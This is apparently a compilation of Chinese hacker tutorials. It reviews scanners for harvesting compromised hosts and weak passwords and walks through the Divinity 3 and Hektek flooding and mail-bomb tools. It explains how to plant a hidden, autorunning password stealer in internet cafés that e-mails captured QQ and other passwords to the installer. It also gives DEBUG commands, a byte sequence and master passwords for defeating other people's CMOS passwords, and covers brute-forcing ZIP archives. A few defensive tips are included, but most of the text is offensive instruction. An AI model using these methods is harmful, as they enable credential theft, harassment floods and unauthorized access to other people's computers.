流光一被喻为中国第一黑客工具，我就是用它进入这个世界的。而流光的作者小榕，也有一大批 Fans，包括我。小榕的论坛以前曾经是中国黑客的培训基地，可惜树大招风，现在在那里灌水的以菜鸟居多了。到现在的最新版本为 4.7，针对了原来的流光 4 有了很大的改进，比如把它模块化了。扫描的部分放在远程肉鸡上，由于这需要用到 IPC$，所以现在的流光不再支持 98/ME。大家要在 98 和 ME 下用，最好去用流光 4。就我个人的体验，流光是结合了扫描与攻击于一体的。在攻击方面，流光是无可挑剔的，比如将很多简单的漏洞都直接处理，使大家可以直接攻击，极大地增加了中国盘古黑客的人数。关于攻击的用法在配套光盘内有使用教程，我在这里就不多说了，这不是这里要说的重点。对于流光的扫描性能我不能算太满意，还有，关于流光的国内 IP 限制的事，希望大家不要打补丁，不然，流光真的成了一堆垃圾！因为打过补丁的不会再扫描了，全是误报！流光的高级扫描功能也只是有些噱头，这在使用过程中可以体会到。我喜欢的是流光的简单扫描功能，因为流光的速度实在是太快，我很喜欢。比如在找 Windows 肉鸡时可以用 IIS、IPC、SQL 等探测，而在找 *NIX 肉鸡时又可以使用 POP、FTP 等探测找弱口令，很爽！试过的才知道。在这里顺便指出流光的一个 Bug，那就是 4.6 的 Ntcmd 功能失效，但在 4 上却用得很好。

流光就这么讲过去算了，因为如果要提高，我们要拒绝用流光，呵呵。下面我们来讲 Xscan。这个好东东是安焦的产品，所以有技术保障，它的优势主要体现在扫描准确、支持 Synscan，以及强大的资源支持，因为安焦搞了个什么资料库，扫描报告可以直接连过去，这种做法是和世界接轨的。另外，安焦的 Exploit 也很全，在国内水准绝对一流。不过 Xscan 也有缺陷，比如在扫到 98 时会错误地报出一大堆弱口令，还有就是它对 Web Server 的扫描功能不强，像 3306 的 MySQL 就根本不会去扫。但 Xscan 的准确性还是相当可敬的，比流光强，比 Shadow Scan 快，项目体积小，界面简单，不失为一个好扫描器。

还有一个就是目前非常红火的 Shadow Security Scanner，我在这里并不想多说什么，因为它的功能非常强大。我只说几点缺点。首先，SSS 占用的系统资源很大，我的 CPU 是奔 4 1.5G，内存 256M，在跑 SSS 时也差点 Down 机。另外，不适合进行大规模扫描。再次，所有版本均有一个 Bug，就是在扫到 8383 端口的 Imail Server 时，会大规模误报，而在检测主机类型时也会有一定偏差，比如会把 AIX 搞成 FreeBSD。当然，SSS 作为一个非商业性的扫描器，恐怕熟的人不多了。这个是 SolarWinds 2001 里的工具，可以检测路由，检测 SNMP 漏洞，功能强大，速度超群，界面漂亮，实乃居家旅行、杀人灭口之必备良药。大家用了才知道爽，用法很简单，一看就会。

接下来要说的就是大名鼎鼎的 Nmap，不愧被人称之为扫描器之王。它在 Unix 下的扫描速度极快，而且每一项均可达专业水准，特别是它根据指纹判断操作系统的能力。现在 Nmap 有 for NT 版，而且有图形界面，在国内是 Nuke 根据 Nmap 的源码编写好的。Nuke 是个很厉害的人，也给了我很多帮助。不过 Nmap 的 NT 版也存在问题，很容易没有响应，同时速度也没在 Unix 下快。

另外一个在 Windows 下的端口扫描利器就是 Superscan，这个东西才是我应该喜欢的了。它是出自著名的 Foundstone 公司，无论是找 Unix 肉鸡或是检测 XX 网站的安全性，因为它是基于 TCP 的，采取了多线程的方法，所以扫描速度较前面提到的更快，在线 ping 不通的情况下亦可扫描。同时它还可以引进列表，这样大大加快了扫描效率。当你有一定水平，不再留恋漏洞扫描器时，端口扫描便会成为你的最爱。

还有一个不得不说的好东西是 ProxyHunter，虽然它是用来扫代理的，但是它极快的速度成了我青睐它的理由，在扫单一端口时，速度比流光还快。

好像最近出了个叫 X-way 的扫描器，还比较有市场，我看了看，就像是个玩具，不过它综合了其他很多扫描功能，比如猜 TFTP，也算是有自己的特色了。

在扫 TCP 端口方面有很多，以上都是，但在扫 UDP 端口方面的却不多，像上面的 Nmap 有这个功能。

还有一个非常棒的扫描器 Languard Network Scanner。这个扫描器在国内用的人恐怕不多，不过在国外的评价倒是很高。它强大的功能主要体现在其扫描速度和快速漏洞扫描上，当然它对 SNMP 的探测功能也使它档次不少。我常常用它来判断主机操作系统类型，因为对于每个操作系统都可以有图标表示。扫描时会先给出 MAC 地址和主机名，再进行更深一步的扫描，比如对 2000 和 NT，会探测 NetBIOS、检测 IIS 漏洞等；对 Unix 类则检测如 RPC 之类的漏洞。最好的还是检测 SNMP 的功能，因为好的扫描器都有这种功能，比如强大的 Shadow Security Scanner，然而 Shadow 的速度是无法和 Languard 比的，这一点很明显，因为只要扫描设置好了，它的速度简直可以和 ProxyHunter 媲美，然而 ProxyHunter 绝对不会有它这么强大的探测功能，所以在大范围扫描的选择上，我首推 Languard Network Scanner。Languard 检测 IDQ 溢出很有功效，比如如果检测到 2000 的主机后面注明了是 SP1 或 SP2 的，那么八成可以溢出！

最后一张王牌，IP Network Browser，关于这个东西我想在国内……

上面啰嗦了那么多废话，也只给大家介绍了几种扫描器。但是入侵最重要的一个环节是扫描（至少我这么认为），对于扫描器的选择也是学问。

如果你想得到大量的 Windows 的肉鸡，那么第一选用的当然是流光，因为它速度快，破解能力强。

如果你想得到很多 Unix 类肉鸡，那么我一定这样干：ProxyHunter + Superscan + Xscan。先用 ProxyHunter 扫 21 端口，然后做成列表，用 Superscan 导出，再用 Superscan 判断哪些是 Unix 机，可以选择一种扫描方案，扫 Unix 类的特征端口，比如 22、111、513、514、6000 等，再加个 23，我喜欢 Telnet。得到哪些是 Unix 类后就可以进行漏洞扫描了，这时候 Xscan 就派上用场了，它的准确度可以给你一份很好的报告。这时就可以开始攻击了，如何攻击就不是今天这里讨论的范畴了。当然也可以用流光的高级扫描，这样得到弱口令的几率大点，多扫几次，收获会更大。

第一种选择就是用 Languard，用它扫大量网段，使得扫出大量的 Unix 主机，然后再去寻求漏洞。其实如果扫得仔细，那么漏洞一般都已经够帮你扫好了，然后你只需要去找相应的 Exploits 就可以了。这种方法依赖于网络与你的设置，当然也少不了这个优秀的工具。

第三种方法想必大家都很熟悉了，就是号称中国第一黑软的流光。用流光的高级扫描，扫扫 POP 弱口令、FTP 弱口令、开放的端口、Telnet 版本、Misc 的 Bind 漏洞和 MySQL 为空，plugins 里面的几个也都要，然后丢到肉鸡上用 Sensor 去跑就好了，唯一要做的当然后去收取报告，说不定会有意外惊喜哦！最好是很多肉鸡同时扫。不过流光的扫描问题仍没解决，很喜欢误报，比如一般只要开了 515 就会报 LPD 远程溢出，希望在以后的版本能有所改进。由于这个原因，我一般是用流光来破解口令，这样好点，因为这样就发挥了流光的长处，而这也是别的工具所无法替代的。

至于扫 SNMP 的问题，就用上面说的 LanScan 和 IP Network Browser 好了。SNMP 是简单网络管理协议，可能泄露很多信息，这些信息往往会很有用，比如进程啊、用户名之类的，那样你就爽了。而 SNMP 是基于 UDP 协议的，所以用一般的基于 TCP 的扫描器是无法扫描的。

上面讲了这么多扫描器，并没讲什么实质内容，只是在特色和适用点上做了简单的介绍。对具体扫描器的用法，还需要大家在实践中不断摸索才行。

## 最强大的攻击工具 Divinity 3 使用说明

众所周知，Divinity 3 是目前功能最多的网络炸弹（俗称）。Divinity 3 是用 Borland C++Builder 和 Borland C++ v5.02 编写的，它包括了 OOB nuker（蓝屏攻击）、IRC nuker 攻击（简直就是个完美版的 click2）、IP flooding（连续洪水攻击）、ICQ flooder（ICQ 短消息轰炸）、mailbomb（邮件炸弹）、IRC bots flooder（IRC 机器人攻击）、IRC DCC Flooder（DCC 攻击）。由于其性能卓越，使用方便，从而赢得了菜虫们的一片赞扬。

下面我就以中文版的 Divinity 3 做一下简单的说明。打开 Divinity 3，如下图所示，它共有 8 个选项。


## 1. 报偿（原子弹图标）

里面也有两个选项，点击炸弹选项（这个是 OOB nuker），在 IP 地址栏中填入目标 IP 地址，选好端口，再点炸死他就可以了。

解决方法：打 OOB 补丁可以解决这个问题。

另外还有一个“流氓”就很厉害了，虽然很老了，但是效果仍然不错，专门对付 IRC 用户。这个东西是通过服务器 K 掉用户的，也就是假冒目标用户，然后告诉 IRC 服务器：我要断线啦。使用方法为：在客户端填入倒霉鬼的 IP，选择端口（一般为 1024-4000），再填入 IRC 服务器的 IP，选择端口（一般为 6667-6667 或者 7000-7000），点开始就可以了！

解决方法：使用端口开启工具，譬如 Ircproxy（不过如果攻击方是 ADSL 用户……来个通杀……）最彻底的解决方法就是使用 Lockdown，呵呵。

## 2. 瘟疫（图标为几颗小绿豆）

这个里面也有两个选项，第一项“洪水”就是 IP flooding，只需填入对方 IP，点开始。这个就像个人版的 DoS 一样，不断地 Ping 对方 IP，从而使对方速度猛降，直至断线！（当然你不可能用 14.4KB 的小猫去炸 ADSL 用户，呵呵）

解决方法：随便装个可以不让别人 Ping 到你的防火墙就行了。

另外一个“蝗虫”是针对 ICQ 用户的，也只要填入对方 IP，选择好端口和消息数就 OK 啦！对方就会收到随机号码发送的一大堆随机消息，哦！！！倒霉的人。

解决方法：少结仇，隐身，防火墙，不用 ICQ……（？）

## 3. 征兆（地球图标）

里面的两个都是邮件炸弹，第一个“地狱火”功能稍强大，在目标填入对方邮件地址，在发送者填入你的 email（你不会真的填自己的吧？），乱写个主题（例如：认识我，亲爱的你不幸），然后随便选一个邮件发送服务器，写完内容后，发送！据说每分钟可以发送 1000 封！哎，真不知作者怎么想的，搞个这么恶搞的东东出来。

解决方法：少结仇罢，我想不会有人无缘无故给你信箱炸弹吧，如果你真走运遇上了的话，找一些什么垃圾软件吧；最多扔掉个免费信箱。（你不会暴露你的 ISP 信箱吧？）

另外一个“魔鬼”其实就是“地狱火”的简装版，无需多说了。

## 4. 咒语（蜡烛图标）

里面这两个都是 IRC 攻击工具。第一个“大狱笼”是 DCC flooder 工具，填写好目标 NICK、服务器 IP 地址、服务器端口、要冒充的名字后，就可以发动攻击了，这样对方会收到一个（或无数个）DCC chat request，如果他按了请求！那可就自认倒霉吧！如果他拒绝，那么你就会不断地发送请求，照样玩完！

解决方法：使用自动 DCC chat 请求忽略，虽然这会造成你的某些不方便，但是为了安全……现在大多数 IRC Bot 都已使用自动忽略了，放心。

另外一个攻击方式“狂风”是 IRC 攻击中最恶毒的！填完目标 NICK、服务器 IP、你要冒充的人的名字、你要说的话，然后选择好机器人个数（如果你是 ADSL 用户，完全可以选它 999 个！）和服务器端口（一般为 6667 或 7000），好了，按开始……只见对方问道：“哎呀！怎么突然有这么多 haha1、hahaa2、hahaa3……一块骂我呀？”这样的话，对方虽然不一定断线，但是绝对无法正常聊天！

记住：机器人的 IP 特征是你的 IP，所以，你的真身最好……

解决方法：目前还没有什么好的解决方法，有的 Bot 可以自动关闭小窗，但是这样的话，你就无法私聊了……

好了，这个 Divinity 3 的主要功能就说得差不多了，还有其他的“经文”“起源”“预言者”什么的都是些关于这个工具的资料，不妨看看。

## Hektek 使用说明

Hektek 是一个比较常用的黑客程序，它具有五项功能：

- a、PING 某个指定的 IP 地址或 WWW 域名；
- b、对指定的 IP 地址或 WWW 域名进行端口检测；
- c、对某 EMAIL 地址进行“炸弹”攻击或屏蔽“炸弹”袭击；
- d、检测指定 IP 地址段内各 IP 地址是否活动以及活动时机器的名称；
- e、Finger 功能。

当 Hektek 成功启动以后，界面如下图所示，在其窗口的左侧从上到下依次有十个图形按钮，鼠标移动到每个按钮上时，在状态栏显示相应的用途。每个按钮有两种状态，点击一次，按钮图形下凹，表示本按钮所对应的动作起作用；再点击一次，按钮恢复，表示按钮所对应的动作停止。


下面结合这十个按钮，介绍 Hektek 的用法：

- 1、磁盘：保存显示结果到一个文本文件。要保存某项动作显示的结果，需要在执行该动作以前使保存按钮起作用，这样，窗口中所有的内容都将保存在一个临时文件中，当该按钮不再起作用，文件生成。文件的名称、路径可以自己定义，缺省的是 C:\HAKTEK.TXT。
- 2、交叉号：清除窗口内容。
- 3、问号：版本信息、主页内容等。
- 4、靶心：设定目标。该目标可以是 IP 地址，也可以是 WWW 地址，或者是 E-MAIL 地址，与使用的操作有关。
- 5、放弃：以规定的参数 PING 目标地址。
- 6、眼镜：对目标地址的 TCP 端口检测、监听。例如，如果你想借助 Windows 9x 的 139 端口而 PING 死对方，对方的 139 端口必须是活动的，利用此命令就可以知道 139 口的状态。
- 7、炸弹：对指定的用户进行 EMAIL 炸弹攻击。servers to 参数推荐使用你攻击的用户的 EMAIL 服务器。
- 8、炸弹屏蔽：当用户受到了 EMAIL 炸弹的攻击，可以在你的 EMAIL 服务器中将这些垃圾邮件清除。
- 9、无线电：对指定范围的 IP 地址进行检测，可以检测到哪些 IP 地址是活动的，还可以检测到指定 IP 地址的机器名。现在各地 163、169 的拨号用户的 IP 地址都是固定在一定范围内的。知道了这个范围，就可以对拨号用户进行“探索”。例如，某地 169 拨号用户的范围，那么就可以对此范围的用户进行检测，根据用户名，或许你能找到你认识的朋友正在网上呢。
- 10、望远镜：相当于 UNIX 下的 FINGER 命令。

## 重返密码乐园

## 密码安全的基本原则

- 1. 不要使用简单的密码，有人简简单单地用自己的生日、单词或电话号码作为密码，这样的密码是很容易被人家猜到的，用穷举软件不到几分钟就破译掉了，希望大家不要设置这样的密码。
- 2. 密码的长度至少要 8 个字符以上，这个是为了对付穷举软件的；密码位数越大，破解的时间越长，没有耐心的破解者就会半途而废。密码的内容还要包含数字、大、小写字母和键盘上的其他字符混合。
- 3. 对于不同的网站和程序，要使用不同口令，以防止被黑客破译；如果你同时在多个网站注册的话，如论坛、电子邮件，这就要设置不同的密码了，以免有人攻破了你的一个密码就掐住了你的一大片。比如说，你在某个论坛注册的用户名密码和你的主页的 FTP 的账户密码一样，而那个论坛的坛主是有权限知道你在论坛注册的 ID 和密码的，那样的话，那就可以直接用 FTP 登录你的主页进行捣乱了。
- 4. 密码要以好记为原则。你的 ID 和密码不要存放在上网的电脑里，如果哪一天别人通过系统漏洞进入了你的电脑窃走了密码文件，那你也怪不了谁。同时，也不要记录在某些书或者纸上，以免被人偷窥，更不要为了下次登录方便而选择“保存密码”功能；
- 5. 还有一点，就是要经常更改你的密码，这样做有一定的好处，最起码可以在别人偷走还没有用的时候就更改掉，让盗窃者扑个空。
- 6. 不要向任何人透露你的密码。
- 7. 重视“取回密码”功能，不要忽视了“取回密码”功能，这可是个法宝！因为其中的问题和答案只有你一个人知道，就算别人更改了你的密码，你也可以利用它来使密码失而复得。

我们几乎每个人都拥有自己的密码，那么怎样才能保证密码的安全呢？对一般的用户来说，设置密码时至少要遵循以下几点原则：

以上 7 条是保证密码安全的最基本原则，只要你做到了其中一到两条，你的密码都算是比较安全的了。

## “密码破解教程之一”

## 密码截取器使用详解

作为本教程的第一堂实验课，我首先要为大家介绍的是“密码截取器 2.6”的使用方法，因为它是操作最简单，而功能又是很强大的工具！要是在网吧、机房等公共场所装上“密码截取器 2.6”，无论是电子邮件、QQ 还是 FTP，所有的密码都能被它截取到，保存到某个文件中，并可以将截取到的密码发到你指定的电子邮箱中去！

### 一、“密码截取器 2.6”的功能介绍

“密码截取器 2.6”由 GaoSoft 出品，该软件可以截取密码输入框中的密码（如拨号连接、OICQ、IE 中的密码），并将密码明文保存在用户自定的文件中（缺省为 c:\password.txt），如果没有截取到密码，密码文件将不存在。同时可以将获取到的密码以后台线程的方式发送到指定邮箱中去，你也可以将这个程序种植到别的机器上，成为一个没有客户端的“木马”；方法：在你的电脑上配置好后，就可以将配置文件一起拷贝到另外的电脑上运行了，不需要重新配置。

“密码截取器 2.6”所支持的系统有：Windows 9x/NT/2000/XP。如下边的例子就是在 Windows XP 下示范的。

### 二、“密码截取器 2.6”的下载与安装

“密码截取器 2.6”是一款出色的密码截获软件，大家可以到作者的主页：

http://www.ccen.com/homefree/gaopro

下载最新的版本，大小只有 91K，很小吧？呵呵，下载解压后有 6 个文件，分别是：

- getPassword.exe 主文件
- Option.sys 配置设置文件
- password.dll 密码库文件
- README.htm 说明文件
- WINNTS.DLL 系统库文件


该软件是不需安装的，下载安装并解压后，直接双击 getpassword.exe 运行就可以了，运行界面如图 1 所示。

### 三、“密码截取器 2.6”的使用方法

直接点击“确定”按钮开始密码截获操作，你将看到如图 2 所示的画面，这个便是程序的主界面了，怎么样？简单明了吧？程序安装完之后，可以点击窗口下边沿的“隐藏”按钮来隐藏程序的窗体，通过 Ctrl+F11 热键（可以任意设置）呼叫显示窗体。

窗口内有很多标签，请大家听我一一道来吧。

看图 2，首先打开的是“运行选项”标签，用于设置程序的运行方式，有两个复选框可供选择：当选中“显示程序开始运行时的提示信息”以后，每次启动程序都显示如图 1 所示的提示框；如果选中“开机自动运行”，则程序通过修改注册表的 Run 项，系统每次启动都会自动加载该程序。这样按需来选择运行方式。为了提高效率，我的建议如下：不选择“显示程序开始运行时的提示信息”项，而选择“开机自动运行”，这样既可以增加程序的隐蔽性，又可以免去多次启动程序的麻烦，特别是网吧等公共场所，让程序更好地为我们服务。


## 主题乐园

现在接着来看“邮件设置”标签。这个功能是指你可以将截取到的密码统一发送到你指定的邮箱中去，前提是“密码是否以邮件发送”的前面打上钩，Email 文本框内便会变得可写，在这里填上你的电子邮箱地址，如：flyingabcdefgfg@163.com。等密码收集到了一定数量，便发送到这个邮箱里面去，如图3所示。


好，继续看，轮到“密码文件”标签了。默认情况下密码是保存到本地机的 C:\password.txt 文件下，但为了更加隐蔽，你可以自由更改密码存放的路径，或通过点击“选择”按钮来选择最佳的路径，如图4所示。


在一台公共的机器上截取到的密码，是不是不愿意和大家共享呢？呵呵，这就对了，程序的“密码保护”功能可以帮助你实现，如图5所示。


在“新密码”里填上你要设置的访问密码，如 flying，在“确认密码”里再写一遍。经过这样的设置，以后在这台机器上就只有你一个人才能够使用这个程序了。另外，当你运行程序或者要查看密码的时候，系统都会提示你要输入密码，只有输入正确的密码才可以继续使用，不然程序自动退出，如图6、7所示。


最后一个标签是“热键设置”，你可以在此设置任意的热键来隐藏/呼叫程序的窗口，笔者在此设置的是“Ctrl + F11”，如图8所示。

好了，“密码截取器2.6”的功能基本介绍完毕，现在我们在网吧里装上这个软件，牛刀小试一下如何？也许你会担心截取到的密码被别人无意中看到，让人渔翁得利，这个你尽可以放心！虽然说密码保存在 C 盘的 password.txt 文件下，但单纯用记事本双击该文本文件看到的却是一堆乱码，如图9所示，作者早已将密码加密过了。所以，必须用软件本身来查看，只要你参照上面的方法加上密码，就保证无人能看得到密码了。


请看图10，发现了什么？呵呵，我们的战果不错嘛，捕获了几个6位数字的 QQ！同志们呐，外出上网要小心！

## 四、如何防范“密码截取器2.6”

俗话说：“只攻不防，不是好士兵。”从上面的教程当中我们学会了如何使用“密码截取器2.6”去盗取密码，但万一你的机器被人种了“密码截取器2.6”呢？或者你在网吧上网，你的密码被这个小东西截取了，你该如何对付呢？下面便看看我给大家提的建议：

- 1. 检查你的机器有没有中“密码截取器2.6”。可以在“开始→运行”里输入 regedit，回车便打开注册表，找到 HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run 键，要是中了“密码截取器2.6”的话，你会在右边的窗口发现多了相关启动项。

- 2. 密码被窃后的补救策略。不论你的密码设置有多复杂，“密码截取器2.6”都能截取得到。要是不想被截取了密码，唯一的方法就是尽快更改密码，因为从你中招到密码送到别人的手上要经过一段时间，最好就是在这段时间内更改掉密码。但很少人会做到，谁会料到自己的密码被偷了呢？

- 3. 求救于“取回密码”功能。如果你实在做不到这一点，那就看看这个吧，这往往是你的“救命恩人”。“取回密码”功能中问你的答案只有你一个人知道，无论入侵者怎么更改你的密码，你都能取回，但前提是你申请了“密码保护”和牢记问题答案，请珍惜好你的密码！

## “密码破解教程之一”

## CMOS 密码破解


图11

通过教程的第一课，大家对密码的截取是不是有点成就感了？呵呵，下面来看 CMOS 密码的破解吧。CMOS 密码通常在开机的时候起到保护的作用，没有这个密码就打不开你的电脑。很多读者以为设置了 CMOS 密码就万事大吉了，其实呀，CMOS 密码的安全性也不是很高的，随便都可以破解掉，前提就是接触你的计算机才能破解。如果是与人公用电脑的话，你就得小心了。下面讲各种 CMOS 密码的破解大法。

## 一、Debug 法

这种方法有条件，就是没有开机密码，或者别人允许你使用他的机器，你才有机会破解。当然了，如果 CMOS 设置中设置的密码检测不是 System，也就是说有了开机密码，那么你不能进入 Windows 系统，也可以轻松破掉！具体方法：用系统软件启动，这样做的原因是系统的启动盘里有 Debug 这个软件。运行 Debug，用下面几种方法之一去破解，破解完后重新启动电脑就可以了。

以上列出了几种方法，请逐一试验，基本都能破解掉。笔者试验每次都能顺利地破解掉。在你重新启动计算机的时候，会发现 CMOS 的存储被清除，需要重新设置。啊啊，直接按 DEL 进入 CMOS 的 SETUP 项，所有的参数全变成了缺省值，重新设好参数后，存盘退出 BIOS 设置！这时不用密码也可以进入系统啦！

| 方法 | 指令 |
|---|---|
| 方法一 | `-O 70 16`<br>`-O 71 16`<br>`-Q` |
| 方法二 | `-O 70 11`<br>`-O 71 FF`<br>`-Q` |
| 方法三 | `-O 70 10`<br>`-O 71 0`<br>`-Q` |
| 方法四 | `-O 70 23`<br>`-O 71 34`<br>`-Q` |
| 方法五 | `-O 70 10`<br>`-O 71 FF`<br>`-Q` |
| 方法六 | `-O 70 2E`<br>`-O 71 0`<br>`-Q` |

## 二、COPY 命令法

这种方法就是用“COPY CON JM.COM”命令建立一个有十个字节的文件 JM.COM。（注意：一些特殊字符是用 ALT 键加小键盘数字键输入的。）运行文件 JM.COM 即可，成功率在 95% 以上。具体方法如下：

在 DOS 命令行运行 COPY CON JM.COM 命令，如：

```text
C:\DOS>COPY CON JM.COM
```

然后输入相应的十个字符：第一个、第二个、第三个字符是 ALT + 176、ALT + 17、ALT + 230；第四个字符是 p；第五、六、七个字符是 ALT + 176、ALT + 20、ALT + 230；第八个字符是 q；第九个字符是 ALT + 205；第十个字符是空格。

按上述方法将十个字符输入后，按 F6 存盘，即生成一个十个字节的小文件 JM.COM，执行它即可。

## 三、工具软件法

这种方法是最直接的了，只要到网上下载一个小程序就可以将 CMOS 的密码攻破。现在即将介绍的 Biospwds.exe 和 Cmospwd.exe 这两个工具就能帮你读取 CMOS 密码。由于这两个工具的使用环境不同，一个是 DOS 下的，一个是 Windows 下的，所以下面我要把它们两个都详细介绍：

Cmospwd.exe 为 DOS 下的工具，当然也可在 Windows 的 MS-DOS 窗口下使用，运行后就会出现有关 BIOS 的信息。此软件的特色是它不仅会根据密码加密方式的不同分别算出 Award、AMI 和 Phoenix 等不同 BIOS 厂商的密码，而且还能算出 IBM、Dell、Compaq 等品牌电脑专用 BIOS 的密码，可见作者设计时考虑得十分周到。它的大小只有 10.3KB，平时在自己的邮箱中保留一个备份，随用随下。我经常借用别人的电脑上网，只要我用一次就可以查出他的 CMOS 密码，嘿嘿，以后就可以畅通无阻啦；）。

Biospwds.exe 是在 Windows 下运行的一个绿色软件，只有一个文件，运行后点“Get Passwords”就会自动识别 BIOS 的厂家、版本、日期及超级用户密码等。不过它的体积稍大，有 167KB。

在使用上述两个软件的过程中，你会发现程序显示的密码有时和真实的密码有所不同，这是正常现象。它们都是对 BIOS 编码过的密码进行逆向解码，得出的结果可能并不唯一。

## 四、通用密码法

这种办法对较老的主板的 CMOS 有用，新的主板不再适用了。我们都知道，主板上的 BIOS 系统基本上都是 AWARD 的，还有不多的是 AMI 等厂商的。这些厂家在生产时都为自己的 BIOS 预留了通用密码，以解一时之需。其中 Award 只有 4.51 版以前的才有通用密码，据我知道有以下密码（按成功几率的高低排序，密码注意大小写哦~~）：

- wantgirl（pay attention to the capital letter）
- Syxz
- d8rrid
- eBBB
- h996
- wnatgirl
- Award

破解方法：在开机启动的时候，看清楚屏幕上显示的是什么 BIOS。若是 AWARD 的而且是 4.51 版本以下的主板，那就简单了，你可以逐一输入以上的密码试一试（提示：经过笔者到各机房试验，因为机房的机器都是些老主板了，结果表明前面的 4 个的成功几率最大）。

## 五、开箱放电法

这可是下下之策了，万不得已的时候不要用这种方法。如果机器的 CMOS 中处于“SYSTEM”状态，又碰巧所有的万能密码都没用，您连系统都无法启动，就更别说什么工具软件法、DEBUG 大法、COPY 命令法什么了，那怎么办呢？有一招万能的办法：就是放电法。只要我们放掉 CMOS 的电，里面的数据就丢失了，密码当然也就烟消云散啦！

开箱放电法较为危险，因为这需要打开机箱。现在有不少无跳线主板（如 QDI 和 ABIT），放电设定很容易（因为无跳线并不是真正的无跳线，一般在板子上都留有一个给 CMOS 放电的跳线），这样一来，给无跳线主板放电也就易如反掌了。嘿嘿~~。普通的主板则麻烦一些，它们当然也有给 CMOS 放电的跳线，只是您不知道是哪个罢了（不要瞎跳和乱跳），小心硬件损坏！

最后注意一点，就是要具备主板说明书，查一下具体是 JP 多少，对其放电即可。要是找不到的话，把 CMOS 的电池取下来，对正负极短接亦可达到预期效果。

## “密码破解教程之三”

## WinZip 8.0/WinRAR 的加密与解密

## 一、WinZip 8.0 / WinRAR 简介

WinZip 8.0 是 Nico Mak Computing 公司开发的著名 ZIP 压缩文件管理器，它有操作简便、压缩运行速度快等显著优点。WinZip 8.0 是一个共享软件。

WinZip 8.0 是一种支持多种文件压缩方法的压缩解压缩工具，几乎支持目前所有常见的压缩文件格式。WinZip 8.0 还全面支持 Windows 9X 中的鼠标拖放操作，用户用鼠标将压缩文件拖拽到 WinZip 程序窗口，即可快速打开该压缩文件。同样，将欲压缩的文件拖曳到 WinZip 窗口，便可对该文件压缩。

WinRAR 的优点是压缩率大，速度快。当设置成最快压缩方式的时候，压缩包比 .zip 小，而速度却与 PKZIP 不相上下，更可支持非 RAR 压缩文件。可将大型文件分割成数块磁片方便携带，且压缩比比 WinZip 8.0 还强大，可产生自解压缩文件，支持鼠标右键快捷菜单功能，支持 ZIP 文件。WinRAR 的老家是 http://www.rarlab.com/，请大家关注。

## 二、WinZip 8.0/WinRAR 的加密

在讲解密码的破解之前我们先讲如何加密。众所周知，WinZip 8.0/WinRAR 可以压缩文件或者文件夹，同样也可以为文件或者文件夹加密，使文件更加安全。如笔者要给一个名为 flying 的文件夹内所有的文件加上访问密码。使用 WinZip 8.0 加密的方法为：在文件夹 flying 上单击右键，选择“Add To Zip”项，将弹出如图12所示的对话框。点击“I Agree”按钮，出现如图13所示的对话框。

点击“Password...”按钮，依次输入两次密码，如图14所示，最后点击上图所示的“Add”按钮即可（要是被加密的文件夹里有文件，则每个文件同时被加密，图15后有个“+”号，如图15所示）。


## 三、WinZip 8.0/WinRAR 密码的破解


用 WinRAR 加密的方法为：在文件夹 flying 上单击右键，选择“Add to archive...”，弹出如图16所示的对话框。

选中“Advanced”标签，如图17所示。单击“Set Password”按钮，连续输入两次相同密码，最后点“确定”就可以了。

现在该来学习它们的破解方法了。要破解使用 WinZip 8.0 加密的文件，笔者首推 Advanced ZIP Password Recovery（简称 AZPR）这款软件，由 ElcomSoft 公司出品。根据笔者的试验，该软件正如 ElcomSoft 公司所称的：AZPR is the fastest ZIP cracker in the world（AZPR 是世界上破解 ZIP 密码最快的软件）！大家可以到该公司的主页：http://www.elcomsoft.com/azpr.html 下载最新的版本，该文件用 zip 压缩，大小只有 683K，安装后才能使用。


运行 AZPR，出现如图19所示的界面。下面以破解 D 盘下的 a.zip 文件为例介绍最简单的使用方法：

在 Encrypted ZIP-file 项内选择相应的 zip 文件：D:\a.zip，Type of attack 选择破解的方式，如果你有现成字典的话，可以选择 Dictionary。现在由于是暴力破解，故选择 Brute-force，然后选中“Range”标签，在其中的“Brute-force range options”下选中前三项（随着密码的复杂度一直往下选），除非是迫不得已，否则不要选 All printable 选项，因为时间会慢得惊人（少则一天，多则 6—7 天）！如图20所示。


设置好之后，点击上面的“Start!”按钮，如果密码简单的话，不到几秒钟就可以破解出来了，如图21所示。笔者设置的密码 111 不到一秒钟就被破解出来了。

破解 WinRAR 加密过的文件同样使用 ElcomSoft 公司出品的 ARPR，使用方法跟上面的差不多，故不再重述！

## 四、在 DOS 环境下如何破解 WinZip 密码

也许有些朋友要说，我根本就进不了 Windows 系统，但我可以用启动盘进入 DOS 环境，那我怎么破解 WinZip 加密的文件呢？这个问题问得好！现在笔者就要介绍如何在 DOS 环境下破解 WinZip 密码：

- 软件名称：Advanced ZIP Password Recovery 0.93
- 运行环境：WinZip 各种版本 + MS-DOS 环境
- 软件性质：共享软件（此为已注册版，1—15 位）
- 软件主页：http://www.elcomsoft.com/
- 下载地址：http://www.cnanshan.com/down/free-azpr.zip
- （free-azpr.zip，167K）

### 1、软件的安装与运行

① 安装：直接将压缩文件“free-azpr.zip”解压到任意目录下即可。


② 执行：运行文件为“azpr.exe”，在 MS-DOS 环境下运行，可以先进入 MS-DOS 环境中 azpr.exe 所在的目录，然后运行它。

③ 注册：在“我的电脑”中，进入已解压文件所存的目录，双击文件“azpr.reg”，会询问你是否要导入注册表信息，如图22所示。点击“是”后，会提示你所有的信息已经成功导入注册表，如图23所示。不需重启计算机即可直接使用。未注册版为 1—7 位，且不能设最小位数，不能为大写字母，不能为特殊符号；注册后为 1—15 位，无任何限制，是不是很爽？

### 2、破解实例

现在笔者要破解 D 盘根目录下的 flying.zip 加密文件，密码是 111，方法如下：

启动到 MS-DOS 环境（或者是 Windows NT/2000/XP 的 cmd 下，如笔者的就是），转到 azpr.exe 所在的目录，键入 azpr，出现图24所示的参数，图中各部分意义如下：

- `/bench`——估算解密所用时间，不解密
- `/min:x`——密码的最小位数（默认为“1”；未注册版此项无效）
- `/max:x`——密码的最大位数（默认为“5”；未注册版最多到“7”；注册后为“15”）
- `/c:dcse`——密码类型，`d` 为数字（默认，包括“0-9”），`s` 为小写字母（包括“a-z”），`c` 为大写字母（包括“A-Z”；未注册版不能用），`e` 为特殊字符（包括“~@#$%^&*()_+-=|[]{};:'\",.<>/?；”，未注册版不能用）
- `About`：此处显示作者或版本信息。
- `/all`——所有大小写字母的组合。

接着键入 azpr /max:3 /c:ds \flying.zip，请看图25，密码为 111，破解成功！


## “密码破解教程之四”

## Word 文档的加密与破解

